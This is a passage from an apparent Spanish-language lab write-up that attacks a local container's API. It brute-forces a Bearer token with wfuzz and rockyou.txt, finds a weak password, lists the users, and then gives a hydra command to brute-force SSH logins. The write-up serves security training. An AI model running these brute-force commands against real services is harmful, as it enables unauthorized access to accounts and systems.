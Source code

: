 Tenemos lo siguiente:
```bash
000000202:   401        3 L      5 W        31 Ch       "users"
```

Ahora si apuntamos con **curl** nos retorna este mensaje:
```bash
curl -s -X GET -H "Authorization: Bearer password_secreta" http://172.17.0.2:5000/api/users
{
  "error": "No autorizado"
}
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que podemos enumerar la api, tenemos que descubrir la contrasena, asi que usaremo **wfuzz** para realizar ataque de fuerza bruta

### Ejecucion del Ataque
```bash
# Comandos para explotación
wfuzz --hh=31 -z file,/usr/share/wordlists/rockyou.txt -H "Authorization: Bearer FUZZ" http://172.17.0.2:5000/api/users
```

Tenemos lo siguiente, que parece una contrasena valida ahora lo que procede es usarla para ver que nos retorna
```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000028:   200        10 L     14 W       89 Ch       "password1" 
```

Tenemos dos posibles usuarios en el sistema:
```bash
curl -H "Authorization: Bearer password1" http://172.17.0.2:5000/api/users
[
  {
    "id": 1,
    "nombre": "bob"
  },
  {
    "id": 2,
    "nombre": "dylan"
  }
]
```

Ahora para estos realizaremos fuerza bruta por **ssh**, Creamos un diccionario con esos dos nombres de usuarios:
```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -f -t 4 ssh://172.17.0.2
```

